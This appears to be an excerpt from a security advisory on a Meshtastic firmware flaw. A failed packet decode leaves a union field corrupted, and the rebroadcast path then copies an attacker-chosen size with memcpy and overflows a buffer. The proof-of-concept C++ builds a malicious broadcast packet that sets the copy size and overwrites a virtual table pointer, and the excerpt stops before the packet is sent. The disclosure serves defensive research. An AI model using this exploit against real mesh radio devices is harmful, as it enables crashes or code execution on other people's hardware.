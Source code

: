 If the decoding is successful, `decrypted` is set to true and `which_payload_variant` is correctly updated to `meshtastic_MeshPacket_decoded_tag`.

```cpp
// src/mesh/Router.cpp

bool perhapsDecode(meshtastic_MeshPacket *p)
{
    // ...

    if (decrypted) {
        // parsing was successful
        p->which_payload_variant = meshtastic_MeshPacket_decoded_tag; // change type to decoded

    // ...
```

However, if the decoding is unsuccessful, `which_payload_variant` is not updated. Because `p->encrypted` and `p->decoded` are implemented using a union and their memory areas overlap, the data in `p->encrypted` has been corrupted with the partial data decoded by `pb_decode_from_bytes` and is unsafe to use.

Because nodes rebroadcast received packets by default the corrupted packet is scheduled to be sent. In `RadioInterface::beginSending` the code correctly asserts that the packet is in encrypted format, and assumes that `p->encrypted` is safe to access, leading to the corrupted size being passed to memcpy, potentially overflowing the buffer.

### PoC

This is some example code that shows how a to send a malicious message which triggers the vulnerability.

```cpp
uint32_t from = 2;
uint32_t id = 2;

meshtastic_Data d = meshtastic_Data_init_default;
// We can choose the memcpy size by setting portnum, as it overlaps with the `encrypted->size` field
uint16_t memcpy_size = sizeof(meshtastic_Data);
d.portnum = static_cast<meshtastic_PortNum>(memcpy_size);
// This is the data written outside of radioBuffer
d.dest = 0xAAAAAAAA;
// Overwrites virtual table pointer
d.source = 0xBBBBBBBB;
d.request_id = 0xCCCCCCCC;
d.reply_id = 0xDDDDDDDD;
d.emoji = 0xEEEEEEEE;
d.has_bitfield = false;

byte internal_data[256] = {};
size_t internal_size = pb_encode_to_bytes(internal_data, sizeof(internal_data), &meshtastic_Data_msg, &d);

// Cause deserialization to fail by adding a stray byte
assert(internal_size < sizeof(internal_data));
internal_data[internal_size] = 0xFF;
internal_size += 1;

channels.setActiveByIndex(0);
crypto->encryptPacket(from, id, internal_size, internal_data);

meshtastic_MeshPacket p = meshtastic_MeshPacket_init_default;
p.from = from;
p.to = 4294967295; // Broadcast
p.id = id;
```